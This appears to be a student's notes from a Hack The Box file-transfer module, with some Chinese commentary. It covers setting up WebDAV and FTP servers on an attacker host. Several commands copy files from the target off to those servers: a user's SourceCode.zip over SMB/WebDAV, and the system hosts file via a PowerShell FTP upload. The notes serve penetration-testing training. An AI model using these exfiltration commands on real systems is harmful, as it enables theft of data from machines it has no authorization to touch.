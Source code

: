 
#### Configuring WebDav Server

```shell-session
TimeLess613@htb[/htb]$ sudo pip3 install wsgidav cheroot
TimeLess613@htb[/htb]$ sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```


#### Connecting to the Webdav Share

> When you use `SMB`, it will first attempt to connect using the SMB protocol, and if there's no SMB share available, it will try to connect using HTTP.

```cmd-session
C:\htb> dir \\192.168.49.128\DavWWWRoot

 Volume in drive \\192.168.49.128\DavWWWRoot has no label.
 Volume Serial Number is 0000-0000

 Directory of \\192.168.49.128\DavWWWRoot

05/18/2022  10:05 AM    <DIR>          .
05/18/2022  10:05 AM    <DIR>          ..
05/18/2022  10:05 AM    <DIR>          sharefolder
05/18/2022  10:05 AM                13 filetest.txt
               1 File(s)             13 bytes
               3 Dir(s)  43,443,318,784 bytes free
```

- DavWWWRoot：指示跟目录。也可指定其他存在的目录。

#### Uploading Files using SMB

```cmd-session
C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```

> [!note] 如果没有SMB的限制，可以用前面的`impacket-smbserver`方法


### FTP Uploads

类似下载时。

```shell-session
TimeLess613@htb[/htb]$ sudo python3 -m pyftpdlib --port 21 --write
```
- `--write`：允许写入到服务端

```powershell-session
PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```


##### 自动化 FTP 操作
